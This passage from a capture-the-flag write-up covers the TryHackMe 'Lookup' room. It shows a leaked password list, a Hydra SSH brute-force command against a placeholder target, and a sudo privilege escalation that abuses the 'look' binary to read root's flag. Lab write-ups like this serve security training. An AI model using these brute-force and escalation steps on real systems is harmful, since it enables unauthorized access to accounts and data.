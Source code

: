 ```bash
pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
password1
password2
....
```

### SSH Brute-Force Attack
With this in mind, we perform an **SSH brute-force attack** using **Hydra** and the `.passwords` file found earlier.

```bash
hydra -l jose -P .passwords ssh://<target_ip> -V
```

**Bingo!** We can now use this password to log in via SSH as the **think** user.

![pwned user](assets/img/THM/Lookup-Writeup/user-pwn.png)

### Retrieving the User Flag
After completing this step, we obtain the **"user.txt"** flag.

```bash
cat user.txt
```

### Root Privilege Escalation
Finally, we explore privilege escalation techniques. Running `sudo -l`, we see that **think** can execute the `look` command as a superuser.  

### Exploiting Look Command
Checking **GTFOBins**, we find that `look` can be leveraged to read files. Using this, we read the root user's flag from `/root/root.txt`.
